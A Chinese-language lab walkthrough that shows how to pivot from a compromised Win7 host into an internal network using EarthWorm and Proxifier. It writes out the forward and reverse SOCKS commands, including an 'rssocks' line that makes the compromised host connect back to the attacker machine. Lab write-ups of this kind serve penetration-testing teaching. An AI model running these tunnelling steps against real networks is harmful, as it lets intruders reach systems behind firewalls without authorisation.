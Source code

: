 EarthWorm结合proxifier搭建正反向代理链<br /> <br />大概思路<br />拿下一个shell后，想要访问这个shell主机的其他内网机器的服务，用earthworm作为一个流量转发，把ew对应的系统文件上传到这台有shell的主机进行正向或者反向的代理配置。使得攻击机可以通过这台有shell的主机在本地就可以访问目标内网其他机器<br /> <br />Earthworm是什么<br />网穿透神器 EarthWorm，(简称 EW) 是一套轻量便携且功能强大的网络穿透工具，基于标准 C 开发，具有 socks5 代理、端口转发和端口映射三大功能。<br />![](https://cdn.nlark.com/yuque/0/2020/png/1345801/1590908498737-419a873a-9cf1-41b9-a30c-8643cfbd28db.png#align=left&display=inline&height=137&originHeight=137&originWidth=649&status=done&style=none&width=649)<br />支持各种不同的系统环境<br />![](https://cdn.nlark.com/yuque/0/2020/png/1345801/1590908498867-5774d98b-9de4-4594-a067-3ce937deb10c.png#align=left&display=inline&height=196&originHeight=196&originWidth=183&status=done&style=none&width=183)<br /> <br />正向代理和反向代理用途的区别<br />正向代理的典型用途是为在防火墙内的局域网客户端提供访问Internet的途径。<br />反向代理的典型用途是将防火墙后面的服务器提供给Internet用户访问。<br /> <br /> <br />环境配置<br />简单配置好一个内网环境 [https://blog.csdn.net/weixin_41598660/article/details/106365740](https://blog.csdn.net/weixin_41598660/article/details/106365740)<br /> <br />Win10为攻击机， 靶机为win7(192.168.10.162，10.0.0.11)，win3（10.0.0.2）<br />![](https://cdn.nlark.com/yuque/0/2020/png/1345801/1590908498995-98da75ae-6a82-4be5-8340-ea825b29beb0.png#align=left&display=inline&height=282&originHeight=282&originWidth=592&status=done&style=none&width=592)<br />Win10 ping不通win3内网<br />![](https://cdn.nlark.com/yuque/0/2020/png/1345801/1590908499117-9b0d3a18-8357-4183-b2df-f3dd9f96a461.png#align=left&display=inline&height=180&originHeight=180&originWidth=485&status=done&style=none&width=485)<br />Win7和win3是同一个内网，能相互ping通，且win7能访问win3的内网web页面<br />![](https://cdn.nlark.com/yuque/0/2020/png/1345801/1590908499238-fbd5bbe9-ee4a-42cc-80e8-c3c8d2ad9376.png#align=left&display=inline&height=480&originHeight=486&originWidth=755&status=done&style=none&width=746)<br /> <br /> <br />正向代理模拟实战<br />Win10拿下了win7的webshell，并上传 earthworm的window执行文件<br />![](https://cdn.nlark.com/yuque/0/2020/png/1345801/1590908499362-f3aae41a-75a0-45b6-ba73-53861031fc87.png#align=left&display=inline&height=477&originHeight=622&originWidth=971&status=done&style=none&width=746)<br />虚拟一下终端！<br />![](https://cdn.nlark.com/yuque/0/2020/png/1345801/1590908499509-6de19ad6-dcac-4b75-bff2-a24531a98148.png#align=left&display=inline&height=437&originHeight=437&originWidth=531&status=done&style=none&width=531)<br />执行命令！<br />`Ew_for_Win.exe -s ssocksd -l 8002`<br />![](https://cdn.nlark.com/yuque/0/2020/png/1345801/1590908499636-838264f1-51d6-4346-81ec-43b2396f0a0a.png#align=left&display=inline&height=50&originHeight=50&originWidth=298&status=done&style=none&width=298)<br />` `<br />然后打开Proxifier工具，进行端口和SOCKS的配置<br />![](https://cdn.nlark.com/yuque/0/2020/png/1345801/1590908499795-f75043c3-f4c0-4dfe-a6dd-115e8aadc40d.png#align=left&display=inline&height=383&originHeight=525&originWidth=1025&status=done&style=none&width=746)<br />[05.30 23:43:38] WINWORD.EXE *64 - self.events.data.microsoft.com:443 打开通过代理 192.168.10.162:8002 SOCKS5<br />Chrome浏览器右击选择Proxifier代理打开页面。![](https://cdn.nlark.com/yuque/0/2020/png/1345801/1590908499982-4e84d709-6871-4fae-9d25-156f8e4ce773.png#align=left&display=inline&height=87&originHeight=87&originWidth=554&status=done&style=none&width=554)<br /> <br />然后在浏览器输入win3内网web的地址，发现，win10能访问了！![](https://cdn.nlark.com/yuque/0/2020/png/1345801/1590908500143-44dfdbd5-a651-4d46-950b-49007eedba6d.png#align=left&display=inline&height=392&originHeight=579&originWidth=1102&status=done&style=none&width=746)<br /> <br />反向代理<br />因为已经拿下了win7的shell，也已经上传了earthworth的window文件。所以进行一下反向代理<br />![](https://cdn.nlark.com/yuque/0/2020/png/1345801/1590908500279-09bf70d6-ff1c-40c4-9398-26f0abd084c9.png#align=left&display=inline&height=377&originHeight=469&originWidth=928&status=done&style=none&width=746)<br /> <br /> <br /> <br /> <br />Win10中 `ew_for_Win.exe -s rcsocks -l 1080 -e 8888`<br />`PS D:\ew\ew-master> .\ew_for_Win.exe -s rcsocks -l 1080 -e 8888`<br />`把代理1080端口（也可以是其他端口）转移到8888端口`![](https://cdn.nlark.com/yuque/0/2020/png/1345801/1590908500444-c365b633-ced0-4d9f-bc25-2171a22a7f10.png#align=left&display=inline&height=141&originHeight=141&originWidth=511&status=done&style=none&width=511)<br />蚁剑中操作如下，让win7的发送一个反向代理的端口，对接到win10（192.168.10.1）<br />Ew_for_Win.exe -s rssocks -d 192.168.10.1 -e 8888<br />![](https://cdn.nlark.com/yuque/0/2020/png/1345801/1590908500554-85803642-7b36-48ae-9612-5e4846105f44.png#align=left&display=inline&height=288&originHeight=288&originWidth=420&status=done&style=none&width=420)<br />然后win10这边会有反应说ok<br />![](https://cdn.nlark.com/yuque/0/2020/png/1345801/1590908500680-00ebb3b6-1be1-4393-a28e-2679f7db7c35.png#align=left&display=inline&height=134&originHeight=134&originWidth=538&status=done&style=none&width=538)<br />然后再对Proxifier进行本地接收端口的配置<br />![](https://cdn.nlark.com/yuque/0/2020/png/1345801/1590908500860-4f3fa37b-dcd9-41d7-891a-e5099c8003ea.png#align=left&display=inline&height=480&originHeight=492&originWidth=766&status=done&style=none&width=746)<br /> <br />尝试访问内网03的web页面！成功<br /> <br />![](https://cdn.nlark.com/yuque/0/2020/png/1345801/1590908501004-3538b860-9e52-4b8f-9708-d0e86580351e.png#align=left&display=inline&height=253&originHeight=351&originWidth=1033&status=done&style=none&width=746)<br /> <br /> <br />对内网10.0.0.2机器进行一个远程的连接！成功<br />![](https://cdn.nlark.com/yuque/0/2020/png/1345801/1590908501142-116a4329-e9a7-4a23-a236-19e3ccc39334.png#align=left&display=inline&height=426&originHeight=521&originWidth=912&status=done&style=none&width=746)
